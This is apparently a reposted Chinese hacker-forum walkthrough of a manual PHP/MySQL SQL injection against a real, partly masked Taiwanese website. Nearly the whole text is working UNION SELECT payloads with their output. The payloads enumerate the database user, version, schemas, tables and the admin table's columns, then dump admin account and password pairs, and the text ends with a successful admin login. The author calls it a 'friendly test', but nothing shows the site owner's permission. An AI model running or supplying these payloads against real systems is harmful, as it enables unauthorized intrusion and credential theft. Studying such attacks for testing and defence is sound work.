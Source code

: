 # 一次手动 php 注入全程

> 原文：[`www.pediy.com/kssd/pediy12/125627.html`](https://www.pediy.com/kssd/pediy12/125627.html)

作者：天下黑客联盟菜菜
论坛：http://www.txhack.com/

本次注入只是友情检测，联盟菜菜宣传黑客联盟，宣传网络安全，希望每个人都提高安全意识，打造安全的网站环境...技术本身没有对错，希望略懂技术的人不要做恶搞网站，学习一下即可!
现将检测过程写在如下：
http://www.***.com.tw/news.php?id=-30+union+select+1,2,concat_ws(0x3A,user(),database(),version(),@@basedir,@@datadir),4,5

metroasis@localhost:
metroasis:
5.1.41-3ubuntu12:
/usr/:
/var/lib/mysql/ 

查看数据库列表

http://www.***.com.tw/news.php?id=-30+union+select+1,2,group_concat(schema_name),4,5/**/from/**/information_schema.schemata

information_schema,metroasis 

http://www.***.com.tw/news.php?id=-30+union+select+1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema='metroasis'

about,admin,banner,blockip,brand,catalog,common,contact,context,formdata

http://www.***.com.tw/news.php?id=-30+union+select+1,2,group_concat(column_name),4,5 from information_schema.columns where table_name='admin'

id,account,passwd 

http://www.***.com.tw/news.php?id=-30+union+select+1,2,group_concat(account,0x3a,passwd),4,5 from admin

http://www.***.com.tw/admin  登录成功